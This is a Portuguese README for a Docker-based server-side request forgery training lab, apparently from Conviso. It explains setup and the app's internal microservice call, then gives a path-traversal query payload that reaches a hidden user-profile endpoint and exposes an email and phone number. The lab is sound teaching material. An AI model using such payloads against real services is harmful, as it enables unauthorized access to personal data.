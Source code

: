 # SSRF

## Setup

Para executar este laboratório você precisará ter instalado em sua máquina:

- [Docker](https://docs.docker.com/get-docker/)
- [Docker Compose](https://docs.docker.com/compose/install/)


## Run

Para rodar este laboratório em sua máquina, rode:

```sh
sh start.sh
```

Para ver se está tudo funcionando, basta abrir o browser na url `http://localhost:5001`.

Você deverá ver uma página com o título `CNVS` e uma lista de nomes.


## How it Works
Este laboratório possui uma lista de pessoas na página principal, que executa este request:

```
http://localhost:5001/search-users?q=
```

E retorna este response:

```json
{
  "result": [
    {
      "id": "11076ed0-298d-40f2-94e7-71c1e60a64fa",
      "name": "Alice Williams"
    },
    {
      "id": "5982c3fc-629c-4ef8-bf18-7900685a1f16",
      "name": "Bob Hand"
    },
    {
      "id": "a1c08d96-b26f-499f-bf7f-d5f17048fb04",
      "name": "Carl McLoan"
    }
  ]
}
```

Para isto, internamente esta api chama outro microserviço:

```
http://users:5002/search/{query}
```

Este parâmetro `{query}` vem da query string `?q=` da primeira chamada.

## How to Exploit

Para obter os dados do usuário, basta executar no browser:

```
http://localhost:5001/search-users?q=../../profile/{id do usuário}
```

Ele vai retornar os dados do usuário

```json
{
  "result": {
    "email": "alice@conviso.com",
    "id": "11076ed0-298d-40f2-94e7-71c1e60a64fa",
    "name": "Alice Williams",
    "phone": "11987654321"
  }
}
```